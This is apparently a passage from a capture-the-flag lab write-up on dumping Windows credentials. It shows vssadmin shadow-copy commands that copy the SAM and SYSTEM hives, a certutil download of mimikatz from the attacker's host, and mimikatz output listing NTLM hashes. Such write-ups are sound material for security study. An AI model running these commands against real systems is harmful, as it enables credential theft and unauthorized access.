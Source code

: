 
##### Volume Shadow Copy 

> https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#volume-shadow-copy-vssadmin

If the registry dump method doesn't work, try this (Failed on this machine)

```bash

# Create Shadow Copy
vssadmin create shadow /for=C:

copy $ShadowCopyName\Windows\System32\config\SAM C:\Windows\Temp\sam.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save


# Remove shadow copy
vssadmin delete shadows /shadow=$ShadowCopyId
```


#### Mimikatz

Use mimikatz's binary version since I can't get powershell work on this old machine

Host mimikatz.exe

```bash
┌──(kali㉿kali)-[~/thm/www]
└─$ ln -s /opt/sectools/win/windows-resources/mimikatz/x64/mimikatz.exe

┌──(kali㉿kali)-[~/thm/www]
└─$ python3 -m http.server 80
```

On target

```bash
certutil -urlcache -split -f http://10.11.19.145/mimikatz.exe mimi.exe
mimi
```

```bash
mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d

mimikatz #
```

